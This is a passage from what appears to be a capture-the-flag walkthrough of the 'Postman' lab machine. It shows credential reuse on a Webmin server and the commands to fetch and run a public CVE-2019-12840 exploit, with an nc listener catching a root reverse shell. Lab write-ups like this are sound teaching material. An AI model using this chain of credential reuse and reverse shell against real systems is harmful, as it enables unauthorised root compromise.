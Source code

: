 ![user4](./postman/user4.png)

Nice! That is `user.txt`. Looking at the system does not seem to show anything interesting... Try credential reuse on the WebMin server with `Matt/computer2008`:

![web3](./postman/web3.png)

And that allows for a login! This web server is running as `root` on the target (see a `ps -aux` output). This allows for exploit 46984 from before to be applicable now. Since the exploit is in Metasploit only, search for `CVE-2019-12840` to find the following repo:

- https://github.com/KrE80r/webmin_cve-2019-12840_poc

The source code looks simple since it is just some POST requests. Use it to get a shell as `root`:

```bash
wget https://github.com/KrE80r/webmin_cve-2019-12840_poc/raw/master/CVE-2019-12840.py
rlwrap nc -nvlp 6969
python3 CVE-2019-12840.py -u https://10.10.10.160 -p 10000 -U Matt -P computer2008 -lhost 10.10.14.27 -lport 6969
```
